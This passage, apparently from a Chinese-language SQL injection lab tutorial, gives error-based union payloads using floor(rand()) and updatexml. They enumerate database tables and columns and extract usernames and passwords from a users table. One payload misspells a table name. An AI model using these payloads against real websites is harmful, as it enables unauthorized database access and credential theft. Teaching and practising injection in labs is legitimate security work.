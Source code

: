 #### 爆表名payload

```mysql
?id=-1' union select count(*),1, concat('~',(select concat(table_name) from information_schema.tables where table_schema=database() limit 1,1),'~',floor(rand()*2)) as a from information_schema.tables group by a--+
```

修改limit x,1 可以遍历表名，找到user这个表，猜测它存放username和password

#### 爆列名payload

```mysql
?id=-1' union select count(*),1, concat('~',(select column_name from information_schema.columns where table_name='users' limit 1,1),'~',floor(rand()*2)) as a from information_schema.tabvles group by a--+
```


修改limit x,1 可以遍历列名，找到username和password列

#### 爆字段payload

```mysql
?id=-1' union select count(*),1, concat('~',(select concat_ws('[',password,username) from users limit 1,1),'~',floor(rand()*2)) as a from information_schema.tables group by a--+
```

![img](https://img-blog.csdn.net/20180819134726635?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNDIwNzQ3/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

修改limit x,1 可以显示第x个用户的password和username  （‘[’是分隔符）

注入结束！





### **报错注入**

#### payload即我们要输入的SQL查询语句

[参考博客](https://blog.csdn.net/sdb5858874/article/details/80727555)

**三种报错注入常用的语句：**

- 通过floor报错

  > ```mysql
  > and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a) --+
  > ```
  >
  > 其中payload为你要插入的SQL语句
  > 需要注意的是该语句将 输出字符长度限制为64个字符

- 通过updatexml报错

  > ```mysql
  > and updatexml(1,payload,1) --+
  > ```
  >
  > 同样该语句对输出的字符长度也做了限制，其最长输出32位
  >
  > 并且该语句对payload的反悔类型也做了限制，只有在payload返回的**不是xml格式才会生效**
